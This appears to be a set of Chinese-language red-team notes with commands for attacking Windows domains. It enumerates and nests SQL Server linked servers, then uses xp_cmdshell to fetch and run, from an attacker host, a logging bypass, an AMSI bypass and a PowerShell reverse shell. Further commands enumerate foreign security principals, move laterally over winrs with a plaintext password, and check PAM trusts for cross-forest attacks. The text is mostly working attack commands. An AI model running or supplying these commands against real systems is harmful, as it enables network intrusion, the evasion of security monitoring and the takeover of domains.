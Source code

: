 
## 在HeidiSQL客户端操作

找当前链接下的链接
```
select * from master..sysservers
```

枚举指定链接下面的连接
```
select * from openquery("192.168.23.25",'select * from master..sysservers')
```

 嵌套链接，执行sql语句
```
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')
```

获取一个rev shell
```
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell ''''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcp.ps1)"'''''')')
```

# FSPs 

枚举FSPs 
```
Find-ForeignGroup -Verbose
```

根据上面得出的SID获取用户名等详细信息
```
Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-10608'}
```

横向
```
winrs -r:db-dc.db.local -u:dbvendor\db138svc -p:Password@123 "whoami"
```

# PAM信任，跨林攻击

枚举FSPs，使用AD
```
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

根据上面枚举的SID，查看详细组信息
```
Get-ADGroup -Filter * -Properties Member -Server bastion.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

检查是否启用了 PAM 信任(AD)
```
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
```